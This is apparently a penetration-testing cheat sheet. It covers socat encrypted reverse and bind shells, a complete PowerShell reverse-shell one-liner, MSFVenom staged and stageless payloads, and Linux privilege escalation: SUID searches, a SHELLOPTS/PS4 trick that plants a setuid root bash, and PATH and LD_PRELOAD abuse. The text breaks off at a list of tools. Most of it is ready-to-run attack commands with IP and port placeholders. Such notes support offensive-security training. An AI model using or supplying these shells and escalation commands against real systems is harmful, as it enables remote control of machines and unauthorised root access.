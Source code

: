 ### Socat Encrypted Shells

- `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt` generate self-signed certificate
- `cat shell.key shell.crt > shell.pem` merge created files into one
- `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` open reverse shell
- `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash` connect from target host

---
For the bind shell use:
- `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes` target code
- `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -` attacker

### PowerShell Reverse Shell

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### MSFVenom

* Staged payloads sent in two parts. The first part is called *stager*, it does not create a reverse shell, but dowloads a bigger payoad which will create one. Staged payloads tend to avoid being detected by antiviruses.
* Stageless payloads a regular bulky payloads that create reverse shell in one stage.

MSFVenom has both staged and stageless payloads, the indication is in the naming.
- `windows/shell_reverse_tcp` - stageless
- `windows/shell/reverse_tcp` - staged(note `/` instead of `_` in the name)

# Linux Privelege Escalation

- Enumerate everything when you get a shell, for example, using LinEnum.sh/linpeas/linux-smart-enumeration script
- Search for SGID/SUID files
	- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
	- apps with those bits can have exploits
	- they can access some files in writable locations, use `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
	- can be PATH abused
	- shell features can be abused, like creating functions with path of the executable or using debug bash mode to run a custom program `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`. This is true for old bash versions, <=4.2, 4.4
- Check if `/etc/passwd` is writeable(or any other sensitive file)
- Check sudo privileged programs with `sudo -l`
- Check crontab
- PATH abuse
	- Imagine, some program with SUID/GUID bit executes another program, but does not use absolute path in the reference and relies on PATH system variable to find target executable
	- So, we can spoof PATH and prepend it with directory that contains an executable with the same name. Due to precedence, privileged executable will run a hand-crafted target, so attacker might elevate privilege
	- Also, we can spoof LD_PRELOAD so some app will call our shared library
- search history files `cat ~/.*history | less`
- search ssh keys
- wildcard injection
- search config files
- if you can read or write shadow/passwd file, this is exploitable
- Tools that help: